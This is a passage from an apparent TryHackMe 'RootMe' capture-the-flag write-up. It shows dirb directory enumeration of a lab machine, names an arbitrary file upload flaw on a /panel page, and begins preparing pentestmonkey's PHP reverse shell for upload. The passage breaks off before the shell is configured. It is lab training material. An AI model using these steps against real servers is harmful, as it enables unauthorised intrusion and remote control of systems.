 ```bash
START_TIME: Sun Jun 25 14:25:44 2023
URL_BASE: http://10.10.53.28/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.53.28/ ----
==> DIRECTORY: http://10.10.53.28/css/                                                       
+ http://10.10.53.28/index.php (CODE:200|SIZE:616)                                            
==> DIRECTORY: http://10.10.53.28/js/                                                          
==> DIRECTORY: http://10.10.53.28/panel/                                                      
+ http://10.10.53.28/server-status (CODE:403|SIZE:276)                                        
==> DIRECTORY: http://10.10.53.28/uploads/   
                                                                               
-----------------
END_TIME: Sun Jun 25 15:10:38 2023
DOWNLOADED: 9224 - FOUND: 3
```

# Vulnerability Identification
> Arbitrary File Upload
6. `firefox http://{TARGET IP}/panel` to launch our Mozilla Firefox web browser and direct it to the specified URL
```bash
┌──(kali㉿kali)-[~]
└─$ firefox http://10.10.53.28/panel
```

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20RootMe/Panel%20Directory.png)

# Vulnerability Exploitation
> Reverse Shell
7. `git clone https://github.com/pentestmonkey/php-reverse-shell` to clone the specified Github repository onto our local machine, that we'll attempt to upload onto and execute on the target machine to create a reverse shell
```bash
┌──(kali㉿kali)-[~]
└─$ git clone https://github.com/pentestmonkey/php-reverse-shell
Cloning into 'php-reverse-shell'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 10 (delta 1), reused 1 (delta 1), pack-reused 7
Receiving objects: 100% (10/10), 9.81 KiB | 837.00 KiB/s, done.
Resolving deltas: 100% (2/2), done.
```
8. `cd php-reverse-shell` to switch into our newly cloned php-reverse-shell repository  
9. `ls` to list all the files that are in our current repository, 
10. `sudo gedit php-reverse-shell.php` to open up GNOME Editor (gedit) to upen up the php-reverse-shell.php
```bash
┌──(kali㉿kali)-[~]
└─$ cd php-reverse-shell   
```
```bash
┌──(kali㉿kali)-[~/php-reverse-shell]
└─$ ls
CHANGELOG  COPYING.GPL  COPYING.PHP-REVERSE-SHELL  LICENSE  php-reverse-shell.php  README.md
```